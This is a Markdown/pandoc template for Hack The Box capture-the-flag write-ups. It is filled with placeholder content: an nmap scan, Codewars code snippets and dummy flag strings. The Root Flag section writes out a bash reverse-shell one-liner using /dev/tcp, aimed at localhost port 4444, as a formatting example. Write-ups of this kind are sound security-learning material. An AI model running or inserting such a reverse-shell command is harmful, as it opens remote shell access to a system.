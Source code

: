 ```yaml
---
title: "Hack The Box - BOX NAME HERE"
author: Ryan Kozak
date: "2019-08-11"
subject: "CTF Writeup Template"
keywords: [HTB, CTF, Hack The Box, Security]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
logo: "./images/badge.png"
logo-width: 350
toc: true
toc-own-page: true
...
```


*Everything below is just random stuff for the sake of example.*

# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
x@wartop:~$ nmap -sVC 192.168.100.6

Starting Nmap 7.01 ( https://nmap.org ) at 2019-08-11 08:57 PDT
Nmap scan report for 192.168.100.6 (192.168.100.1)
Host is up (0.022s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
53/tcp  open  domain
81/tcp  open  http     Apache httpd
|_http-server-header: Apache
444/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=192.168.100.6
| Not valid before: 2018-07-06T14:40:08
|_Not valid after:  4756-06-01T14:40:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.22 seconds
```
From the above output we can see that ports, **22**, **53**, **81**, and **444** are the ports open. This is just an example to show code formatting so who cares.

Look  here's an image of my website, this is how you format an image.

![My Website](./images/ryankozak.com.png)
\ **Figure 1:** My Website


![Github](./images/github.png)
\ **Figure 2:** Github Profile

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
